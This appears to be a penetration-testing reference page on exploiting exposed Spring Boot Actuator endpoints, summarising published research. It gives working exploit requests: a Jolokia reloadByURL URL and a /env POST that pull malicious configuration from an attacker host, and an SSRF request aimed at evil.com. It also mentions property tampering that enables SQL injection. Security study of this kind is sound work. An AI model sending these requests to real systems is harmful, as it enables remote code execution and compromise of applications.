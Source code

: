 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   - The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   - The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   - Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

   - If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   - Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   - Example exploit POST request:

     ```
     POST /env HTTP/1.1
     Host: 127.0.0.1:8090
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 65

     eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
     ```

3. **Other Useful Settings**:
   - Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
    - Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   - The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   - Example exploit request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

    {{#include ../../banners/hacktricks-training.md}}




{{#include /banners/hacktricks-training.md}}
